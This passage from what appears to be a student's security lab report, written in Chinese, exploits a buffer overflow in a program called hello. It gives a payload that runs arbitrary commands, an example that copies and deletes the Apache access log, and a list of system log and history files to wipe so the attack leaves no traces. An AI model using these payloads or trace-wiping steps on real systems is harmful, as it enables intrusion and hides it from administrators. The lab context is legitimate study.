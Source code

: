    ![image-20231128200818579](C:\Users\20149\AppData\Roaming\Typora\typora-user-images\image-20231128200818579.png)

   但是`rm`，`cp`等文件操作指令无法执行。

3. **提权与执行**

   在前面的实验中，我们成功利用了`hello`程序的缓冲区溢出漏洞提升了权限：

   ```
   q|(printf "AAAAAAAABBBBBBBBCCCCCCCC\xa9\x11\x40\0\0\0\0\0\n";sleep 1;echo 'id';)|/bin/hello;
   ```

   故我们可以通过简单更改这一注入代码，来达到执行任意代码的目的：

   ```
   q|(printf "AAAAAAAABBBBBBBBCCCCCCCC\xa9\x11\x40\0\0\0\0\0\n";sleep 1;echo '[Any code]';)|/bin/hello;
   
   [Any code]处可以填入任意代码
   ```

   可能用到的指令，以查找、查看文件内容，创建、移动、删除文件。

   ```
   rm
   cp
   cat
   find
   ```
	这是笔者组织的一次，查看、复制、删除`access.log`文件的攻击。
   ```
   (printf "AAAAAAAABBBBBBBBCCCCCCCC\xa9\x11\x40\0\0\0\0\0\n";sleep 1;echo 'cp /var/log/apache2/access.log /home/juser/tmp ; cat /home/juser/tmp/access.log ; rm /var/log/apache2/access.log;';)|/bin/hello;
   ```

   攻击结果如下，成功显示、备份并删除了`access.log`文件：
   
   ![Lab3-21](E:\VSCODE\UbuntuShare\ICS\UCAS-ICS-Share\Lab3\Pic\Lab3-21.png)
   
   ![Lab3-22](E:\VSCODE\UbuntuShare\ICS\UCAS-ICS-Share\Lab3\Pic\Lab3-22.png)
   
4. **擦除攻击痕迹**

   一种方式可以选择直接暴力删除/清空一切相关的操作使用痕迹

   简单罗列如下：

   ```
   ~/.bash_history
   /var/log/btmp
   /var/log/lastlog
   /var/log/wtmp
   /var/log/utmp
   /var/log/secure
   /var/log/message
   /var/log/dmesg
   /var/log/apache2/access.log
   /var/log/apache2/access.log
   ```
